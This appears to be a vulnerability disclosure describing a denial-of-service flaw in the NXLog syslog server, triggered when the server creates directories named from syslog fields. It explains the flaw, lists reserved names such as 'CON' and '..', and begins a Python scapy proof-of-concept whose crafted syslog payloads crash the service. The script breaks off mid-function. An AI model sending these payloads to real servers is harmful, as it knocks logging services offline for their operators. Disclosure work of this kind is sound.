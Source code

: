 **Confidentiality       :**     None

**Availability          :**     High

---

**CVSS SCORE            :**     7.5

**SEVERITY              :**     HIGH


---

# 2 Exploitation :
This vulnerability can make a DoS of NXLOG server.

But the server needs to be a specific configuration, the nxlog config file must define to create a directory with a field of a part of the Syslog payload.

Syslog field: [https://nxlog.co/documentation/nxlog-user-guide/xm_syslog.html#xm_syslog_fields](https://nxlog.co/documentation/nxlog-user-guide/xm_syslog.html#xm_syslog_fields)

The software tries to create a directory but the name of this directory can't be created on the file system.

Because of the name of this directory is forbidden.

Here is an example of a directory name impossible to create :

* For Windows 	: 	CON, PRN, AUX, NUL, COM1, COM2, COM3, COM4, COM5, COM6, COM7, COM8, COM9, LPT1, LPT2, LPT3, LPT4, LPT5, LPT6, LPT7, LPT8 et LPT9;
* For Linux 	:	.., .

So if the configuration file is defined to create a name directory with Syslog payload, an attacker can switch off the Nxlog service.

---

# 3 PoC :
To exploit this vulnerability I have created a Python script :
````python
#!/usr/bin/python3
# coding: utf8
# Nooooooooooo I'm not a script kiddie I hack syslog :D
# g0 h4ck SYSLOG
# Made by 123soleil with <3

import sys
import time
import argparse
from scapy.all import *

def getPayload(args):
        # IF UNIX
        if (args.OS == 1):
                return "Sep 14 14:09:09 .. dhcp service[warning] 110 Silence is golden"
        # IF WINDOWS
        elif (args.OS == 2):
                return "Sep 14 14:09:09 CON dhcp service[warning] 110 Silence is golden"

        # Test
        elif (args.OS == 3):
                return "Sep 14 14:09:09 123soleil dhcp service[warning] 110 Silence is golden"

def runExploit(args,payload):
        priority = 30
        message = payload
````